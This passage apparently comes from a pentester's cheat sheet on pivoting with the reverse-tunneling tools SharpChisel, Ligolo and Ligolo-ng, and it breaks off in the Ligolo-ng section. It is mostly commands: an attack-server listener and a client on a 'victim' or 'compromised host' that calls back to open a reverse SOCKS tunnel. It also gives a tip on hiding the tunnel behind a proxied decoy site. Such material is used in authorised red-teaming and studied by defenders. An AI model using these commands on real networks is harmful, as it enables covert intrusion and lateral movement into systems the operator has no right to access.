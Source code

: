 ### SharpChisel

A C# Wrapper of Chisel : https://github.com/shantanu561993/SharpChisel

```powershell
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Ligolo

Ligolo : Reverse Tunneling made easy for pentesters, by pentesters


1. Build Ligolo
  ```powershell
  # Get Ligolo and dependencies
  cd `go env GOPATH`/src
  git clone https://github.com/sysdream/ligolo
  cd ligolo
  make dep

  # Generate self-signed TLS certificates (will be placed in the certs folder)
  make certs TLS_HOST=example.com

  make build-all
  ```
2. Use Ligolo
  ```powershell
  # On your attack server.
  ./bin/localrelay_linux_amd64

  # On the compromise host.
  ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
  ```

## Ligolo-ng

Ligolo-ng : An advanced, yet simple, tunneling tool that uses TUN interfaces.

#### Single Pivot
1. Downloading the binaries.
- The proper binaries can be downloaded from [here](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.5.2).
